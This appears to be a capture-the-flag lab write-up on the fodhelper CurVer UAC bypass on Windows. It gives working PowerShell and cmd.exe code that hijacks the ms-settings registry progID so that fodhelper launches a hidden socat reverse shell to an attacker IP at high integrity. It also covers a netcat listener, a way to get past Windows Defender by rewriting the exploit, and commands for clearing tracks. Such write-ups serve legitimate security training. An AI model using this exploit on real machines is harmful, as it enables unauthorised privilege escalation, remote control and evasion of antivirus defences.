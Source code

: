 # Fodhelper-curver exploit

Now Defender is enabled and it detects [the fodhelper exploit attempt](autoelevate.md).

A variation on the fodhelper exploit was proposed by 
[V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses), where different 
registry keys are used, but the basic principle is the same.

Instead of writing the payload into `HKCU\Software\Classes\ms-settings\Shell\Open\command`, use the `CurVer` entry 
under a `progID` registry key. This entry is used when you have multiple instances of an application with different 
versions running on the same system. CurVer allows for pointing to the default version of the application to be used 
by Windows when opening a given file type.

Create an entry on the registry for a new `progID` (any name will do) and then point the CurVer entry in the 
ms-settings `progID` to the newly created `progID`. This way, when `fodhelper` tries opening a file using the 
ms-settings `progID`, it will notice the CurVer entry pointing to the new `progID` and check it to see what command 
to use.

The exploit code proposed by @V3ded uses Powershell to achieve this end. A modified version of it, adapted for using 
reverse shell:

```text
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

This exploit creates a new `progID` with the name `.pwn` and associates the payload to the command used when opening 
such files and points the CurVer entry of ms-settings to the `.pwn` `progID`. When `fodhelper` tries opening an 
ms-settings program, it will instead be pointed to the `.pwn` `progID` and use its associated command.

This technique is more likely to evade Windows Defender because we have more liberty on where to put the payload, 
as the name of the `progID` that holds our payload is entirely arbitrary. 

## Lab

Start a new reverse shell on the attacker machine:

    nc -lvp 4445

And execute the exploit from the backdoor connection. Windows Defender will throw another fit that references the 
actions taken. The detection methods used by AV software are implemented strictly against the published exploit, 
without considering possible variations. If we translate our exploit from Powershell to use `cmd.exe`, the AV won't 
raise any alerts.

```text
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```

In the high integrity reverse shell, get the flag:

```text
$ nc -lvp 4445      
Listening on 0.0.0.0 4445
Connection received on 10.10.183.127 23441
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288

C:\> C:\flags\GetFlag-fodhelper-curver.exe
```

Clear tracks:

```text
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
